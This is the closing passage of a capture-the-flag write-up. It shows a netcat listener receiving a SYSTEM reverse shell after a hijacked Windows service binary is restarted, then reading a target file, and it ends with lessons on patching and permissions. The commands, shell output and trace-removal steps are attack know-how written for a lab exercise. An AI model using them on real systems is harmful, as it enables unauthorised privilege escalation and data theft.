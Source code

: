 **Attacker Commands:**
```bash
nc -lvnp 80
PS C:\Program Files (x86)\Spoofer> sc.exe stop spoofer-scheduler
PS C:\Program Files (x86)\Spoofer> sc.exe start spoofer-scheduler
```

**Successful Escalation:**
```
nc -lvnp 80
listening on [any] 80 ...
connect to [10.9.1.172] from (UNKNOWN) [10.201.79.117] 50536
C:\Windows\system32>
```

The shell ran with SYSTEM privileges, granting full administrative access.

## Post-Exploitation

### Data Exfiltration
With SYSTEM-level access, navigated to the Administrator's desktop to locate the target intelligence.

**Commands:**
```bash
C:\Windows\system32> cd C:\Users\Administrator\Desktop\
C:\Users\Administrator\Desktop> type Hacking-Targets\hacking-targets.txt
Next Victims:
CyberLens, WorkSmarter, SteelMountain
```

**Target List Retrieved:**
- CyberLens
- WorkSmarter
- SteelMountain

This completed the primary objective of extracting the APT group's upcoming targets.

### Cleanup (Simulated)
In a real scenario, traces would be removed, including:
- Restoring the original service binary.
- Clearing logs and temporary files.
- Terminating reverse shells.

However, as this was a CTF, no cleanup was performed to maintain the challenge integrity.

## Conclusion

The "Hack Smarter Security" challenge was successfully compromised, demonstrating the dangers of unpatched vulnerabilities and misconfigured permissions in enterprise environments. From initial reconnaissance to full SYSTEM access, the assessment highlighted critical weaknesses that could allow real-world attackers to exfiltrate sensitive data.

### Lessons Learned
- Embedded management interfaces (e.g., Dell OpenManage) must be patched and isolated.
- Service binaries should not have write permissions for low-privilege users.
- Regular vulnerability scanning and privilege audits are essential.
- Defense-in-depth strategies, including network segmentation and monitoring, can mitigate such risks.
